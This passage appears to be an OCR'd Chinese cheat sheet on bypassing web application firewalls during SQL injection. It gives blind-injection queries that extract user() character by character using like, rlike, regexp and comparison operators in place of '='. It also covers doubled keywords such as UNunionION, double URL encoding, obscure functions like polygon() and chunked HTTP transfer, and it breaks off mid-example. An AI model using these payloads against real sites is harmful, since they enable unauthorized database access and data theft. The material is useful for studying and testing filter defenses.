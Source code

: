 xor 等于|

 

等号绕过

如果程序会对=进行拦截 可以使用 like rlike regexp 或者使用<或者>

select * from users where id=1 and ascii(substring(user(),1,1))<115;

select * from users where id=1 and ascii(substring(user(),1,1))>115;

select * from users where id=1 and (select substring(user(),1,1)like 'r%');

select * from users where id=1 and (select substring(user(),1,1)rlike 'r');

select * from users where id=1 and 1=(select user() regexp '^r');

select * from users where id=1 and 1=(select user() regexp '^a');

 

双写绕过

有的waf会转空关键词

但只会转一次

因此写两次就行了

UNunionIONSEselectECT

 

二次编码绕过

有的waf只会解码一次url编码

对已经加密的编码再加密就是了

 

偏僻函数绕过

采用生僻函数代替常见函数

例如采用polygon()代替updatexml函数

 

分块传输绕过

每个分块包含十六进制的长度值和数据，长度值独占一行，长度不包括它结尾的

CRLF(\r\n)，也不包括分块数据结尾的 CRLF(\r\n)。

最后一个分块长度值必须为 0，对应的分块数据没有内容，表示实体结束。

最后一个分块后需要空两行

例：

HTTP/1.1 200 OK

Content-Type: text/plain

Transfer-Encoding: chunked

23\r\n
